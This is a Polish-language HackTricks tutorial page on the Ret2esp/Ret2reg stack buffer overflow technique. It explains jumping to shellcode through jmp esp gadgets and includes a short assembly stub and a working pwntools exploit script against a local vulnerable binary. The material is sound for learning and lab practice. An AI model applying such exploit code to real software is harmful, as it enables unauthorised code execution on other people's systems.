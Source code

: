 # Ret2esp / Ret2reg

<details><summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## **Ret2esp**

**Ponieważ ESP (Wskaźnik stosu) zawsze wskazuje na górę stosu**, ta technika polega na zastąpieniu EIP (Wskaźnik instrukcji) adresem instrukcji **`jmp esp`** lub **`call esp`**. Dzięki temu, shellcode jest umieszczany bezpośrednio po nadpisanej wartości EIP. Gdy instrukcja `ret` jest wykonywana, ESP wskazuje na następny adres, dokładnie tam, gdzie przechowywany jest shellcode.

Jeśli **Randomizacja Układu Przestrzeni Adresowej (ASLR)** nie jest włączona w systemie Windows lub Linux, można użyć instrukcji `jmp esp` lub `call esp` znalezionych w bibliotekach współdzielonych. Jednakże, przy [**ASLR**](../common-binary-protections-and-bypasses/aslr/) aktywnym, konieczne może być poszukiwanie tych instrukcji w samym programie podatnym (i możliwe, że trzeba będzie pokonać [**PIE**](../common-binary-protections-and-bypasses/pie/)).

Co więcej, umożliwienie umieszczenia shellcode **po skorumpowaniu EIP**, a nie w środku stosu, zapewnia, że żadne instrukcje `push` lub `pop` wykonane podczas działania funkcji nie będą ingerować w shellcode. Taka ingerencja mogłaby wystąpić, gdyby shellcode został umieszczony w środku stosu funkcji.

### Brak miejsca

Jeśli brakuje Ci miejsca do zapisania po nadpisaniu RIP (może to być tylko kilka bajtów), napisz początkowy **`jmp`** shellcode jak:
```armasm
sub rsp, 0x30
jmp rsp
```
I zapisz shellcode na początku stosu.

### Przykład

Możesz znaleźć przykład tej techniki w [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) z końcowym exploit'em jak:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
sub rsp, 10;
jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
Możesz zobaczyć kolejny przykład tej techniki w [https://guyinatuxedo.github.io/17-stack\_pivot/xctf16\_b0verflow/index.html](https://guyinatuxedo.github.io/17-stack\_pivot/xctf16\_b0verflow/index.html). Istnieje tu przepełnienie buforu bez włączonego NX, używany jest gadżet do **zmniejszenia adresu `$esp`** a następnie `jmp esp;` aby przeskoczyć do kodu powłoki:
```python
# From https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html
```